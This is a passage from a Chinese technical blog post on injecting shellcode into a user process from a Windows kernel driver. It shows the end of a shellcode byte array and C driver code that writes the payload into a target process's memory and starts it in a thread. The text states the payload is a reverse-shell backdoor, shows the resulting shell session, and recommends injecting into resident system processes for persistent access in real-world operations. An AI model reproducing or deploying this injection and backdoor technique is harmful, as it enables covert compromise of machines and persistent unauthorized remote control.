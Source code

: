     		"\xc7\xa7\xc9\xcf\x5b\xaf\x35\x8d\x73\x08\x5d\x6d\xc4\xa8\x9d"
    		"\x07\xc4\xf8\xf5\xdc\xeb\xf7\x35\x1c\x26\x50\x5d\x97\xa7\x12"
    		"\xfc\xa8\xed\xf3\xa0\xa9\x02\x28\x53\xd3\x6b\xcf\x94\x24\x62"
    		"\xb4\x95\x24\x8a\xca\xaa\xf2\xb3\xb8\xed\xc6\x87\xb3\x58\x6a"
    		"\xa1\x59\xa2\x38\xb1\x4b";
    
    	// -------------------------------------------------------
    	// 写出数据到内存
    	// -------------------------------------------------------
    
    	ReadMemoryStruct ptr;
    
    	ptr.pid = process_id;
    	ptr.address = ref_address;
    	ptr.size = strlen(ShellCode);
    
    	// 需要写入的数据
    	ptr.data = ExAllocatePool(NonPagedPool, ptr.size);
    
    	// 循环设置
    	for (int i = 0; i < ptr.size; i++)
    	{
    		ptr.data[i] = ShellCode[i];
    	}
    
    	// 写内存
    	MDLWriteMemory(&ptr);
    	ExFreePool(ptr.data);
    
    	// -------------------------------------------------------
    	// 执行开线程函数
    	// -------------------------------------------------------
    
    	// 执行线程注入
    	// 参数1：PID
    	// 参数2：LoadLibraryW内存地址
    	// 参数3：当前DLL路径
    	BOOLEAN flag = MyInjectShellCode(process_id, ref_address, 0);
    	if (flag == TRUE)
    	{
    		DbgPrint("[*] 已完成进程 %d | 注入地址 %p \n", process_id, ref_address);
    	}
    
    	DriverObject->DriverUnload = Unload;
    	return STATUS_SUCCESS;
    }
    

编译并在客户端运行这个驱动程序，则会将`ShellCode`反弹后门注入到`PID=5844`进程内，输出效果图如下所示；

![](https://img2023.cnblogs.com/blog/1379525/202303/1379525-20230303132019836-807397202.png)

此时回到服务端程序，则可看到反弹`Shell`会话，输出效果图如下所示；

![](https://img2023.cnblogs.com/blog/1379525/202303/1379525-20230303132151919-1864045185.png)

当然该方法也可注入自定义ShellCode代码，也可实现对某个游戏的`Call`调用功能等，上文中只是为了通用性而演示的一个案例，在真实的实战环境中，读者可以将代码注入到系统常驻进程上，这样系统启动后自动注入代码以此来实现长久的权限维持。

**文章作者：**[lyshark](https://www.cnblogs.com/LyShark/) (王瑞)  
**文章出处：**[https://www.cnblogs.com/LyShark/p/17175249.html](https://www.cnblogs.com/LyShark/p/17175249.html)  
本博客所有文章除特别声明外，均采用 BY-NC-SA 许可协议。转载请注明出处！